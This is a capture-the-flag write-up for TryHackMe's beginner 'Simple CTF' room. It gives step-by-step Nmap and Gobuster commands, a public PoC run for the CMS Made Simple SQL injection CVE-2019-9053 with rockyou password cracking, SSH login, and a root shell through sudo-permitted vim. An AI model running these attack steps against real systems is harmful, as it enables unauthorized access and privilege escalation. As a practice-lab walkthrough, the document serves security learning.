 Write-up Simple CTF on TryHackMe

🎯 1. Introduction to the CTF

- 🧩 Name: Simple CTF on [TryHackMe](https://tryhackme.com/room/easyctf)
- 🎯 Goal: Practice basic penetration testing workflow:
    - Reconnaissance → Web Enumeration → Exploitation → SSH Access → Privilege Escalation → Get Flags
- Level: Beginner
- Tools Required: Kali Linux, Nmap, Gobuster, Python3, rockyou.txt, common dir wordlists
- TryHackMe Room Link: https://tryhackme.com/room/easyctf


🔍 2. Reconnaissance – Scanning the Target

📌 Step 2.1: Full Port Scan with Nmap

  ```bash
  nmap -p- --open -oN nmap_all.txt $IP
  ```

- p-: scan all 65535 ports
- -open: only show open ports
- oN: output to a file

Result:

Open ports → 21 (FTP), 80 (HTTP), 2222 (SSH - non-default)

📌 Step 2.2: Service and Version Detection

```bash
nmap -p21,80,2222 -sC -sV -oN nmap_detail.txt $IP
```

- sC: run default Nmap scripts (for banners, SSL info, etc.)
- sV: detect service versions

This gives us info like:

- FTP open (anonymous login: disabled)
- Web server running on port 80
- SSH open on port 2222


🌐 3. Web Enumeration – Discovering Hidden Paths

📌 Step 3.1: Directory Brute Force with Gobuster

```bash
gobuster dir -u http://$IP -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
```

- u: target URL
- w: wordlist path

Result:

We find a hidden path → /simple

📌 Step 3.2: Investigate

/simple

- By checking the page and source code, we identify the CMS:
→ CMS Made Simple v2.2.8


💥 4. Exploitation – SQL Injection via CVE‑2019‑9053

📌 Step 4.1: Search for Exploits

- A quick Google search for
CMS Made Simple 2.2.8 exploit → leads to CVE-2019-9053
- It’s an unauthenticated blind SQL injection vulnerability

📌 Step 4.2: Run Exploit Script

We use a public PoC from [Exploit-DB](https://www.exploit-db.com/exploits/46635)

```bash
python3 46635.py -u http://$IP/simple --crack -w /usr/share/wordlists/rockyou.txt
```

- u: base URL to the vulnerable CMS
- -crack: attempt to crack the password hash
- w: specify a wordlist (rockyou.txt)

Result:

```notion
[+] Username: mitch
[+] Password: secret
```


🔐 5. SSH Access – Logging into the Box

```bash
ssh mitch@$IP -p 2222
```

- Use credentials: mitch / secret
- Successfully drops us into a shell as user mitch

📌 Step 5.1: Capture User Flag

```bash
cat user.txt
```

🟢 User Flag Found! Example:

```bash
flag{thm_user_flag_example}
```


🧨 6. Privilege Escalation – Gaining Root Access

📌 Step 6.1: Check sudo permissions

```bash
sudo -l
```

Result:

```bash
User mitch may run the following command on this host:
    (ALL) NOPASSWD: /usr/bin/vim
```

This means we can run vim as root without a password — classic misconfiguration.

📌 Step 6.2: Exploit vim to get root shell

```bash
sudo vim -c ':!/bin/bash'
```

- :! tells vim to run a shell command
- Since we’re running it with sudo, this opens a root shell

```bash
whoami
# root ✅
```

📌 Step 6.3: Read the Root Flag**

```bash
cat /root/root.txt
```

🟢 Root Flag Found! Example:

```bash
flag{thm_root_flag_example}
```


🏁 7. mmary of Flags* 
User: flag{thm_user_flag_example}
Root: lag{thm_root_flag_example}
